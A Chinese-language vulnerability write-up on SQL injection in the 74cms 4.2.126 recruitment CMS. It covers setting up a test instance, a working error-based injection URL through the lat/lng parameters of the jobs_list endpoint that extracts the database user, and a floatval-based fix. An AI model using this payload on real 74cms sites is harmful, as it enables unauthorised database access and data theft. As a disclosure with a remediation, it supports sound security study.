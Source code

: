 # 74cms v4.2.126-通杀sql注入

## 0x00 前言

厂商：74cms

下载地址：http://www.74cms.com/download/index.html

关于版本：

新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)

2， 将下载好的包进行安装

3， 进入后台点击查看如果不是最新版的话，请点击升级！

4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决

5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php

6， 查找所有$_SERVER['HTTP_HOST'] 改为  http://baidu.com 即可

## 0x02 数据填充不然没得测试

![image](images/img74.png)

## 0x02.1注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了

注册完成以后将此商家用户登录前台

![image](images/img75.png)

## 0x02.2注册普通账号方便测试

![image](images/img76.png)

## 0x03 sql漏洞演示

![image](images/img77.png)

![image](images/img78.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

```html
Payload: 
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a
```

![image](images/img79.png)

## 0x04 漏洞原理

![image](images/img80.png)

![image](images/img81.png)

![image](images/img82.png)

![image](images/img83.png)

![image](images/img84.png)

说明我们的猜想是没有错的。

![image](images/img85.png)

![image](images/img86.png)

所以最终我们符合条件的内容都会赋值为$this->params

![image](images/img87.png)

![image](images/img88.png)

![image](images/img89.png)

## 0x05 修复方法

![image](images/img90.png)

```php
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";
```

强转为浮点型，防止注入

## 四、参考链接

https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
